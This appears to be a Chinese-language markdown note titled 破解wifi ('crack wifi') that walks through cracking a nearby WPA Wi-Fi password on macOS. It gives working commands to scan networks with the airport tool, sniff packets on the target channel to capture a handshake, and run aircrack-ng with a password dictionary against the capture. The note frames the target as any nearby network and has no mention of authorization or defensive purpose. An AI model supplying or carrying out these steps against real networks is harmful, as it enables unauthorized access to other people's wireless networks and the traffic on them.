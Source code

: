 ```yaml
---
title: 破解wifi
---
```


### 准备安装macport和aircrack-ng 百度有很多

### 通过airport查看附近的wifi
#### 1.没有把airport添加到系统命令的
    sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
#### 2.把airport添加到系统命令
    sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/Cellar/aircrack-ng

### 开始查看附近的wifi 
    airport -s

### SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。选择RSSI比较小的，越小信号越强，可以这么理解(负数的话，越大越好)

### 查看自己的网卡信息
    点击桌面左上角的苹果   系统信息   系统报告   wifi  看是en0还是en1

### 看是抓包
    sudo airport en0 sniff 1    //en0是你的网卡的信息，1是你要破解的wifi的信道CHANNEL
### 打开finder，快捷键是： command+alt+space  点击左上角的：前往 或者快捷键是comman+shift+g  查看刚刚的抓包文件
    /tmp

### 在桌面上创建一个文件夹wifi   把刚刚的抓包文件和密码字典放一起 分别命名为01

### 查看是否抓到包
    cd ~/Desktop/wifi
    aircrack-ng -w 01.txt 01.cap

### 在命令行里面查找1 handshake command+f 快捷键：command+f，并查看对应的行数 ，拉到命令行的最下方找到：index number of target network ?     在其后面输入刚刚对应的行数


### 接下来就是漫长的等待
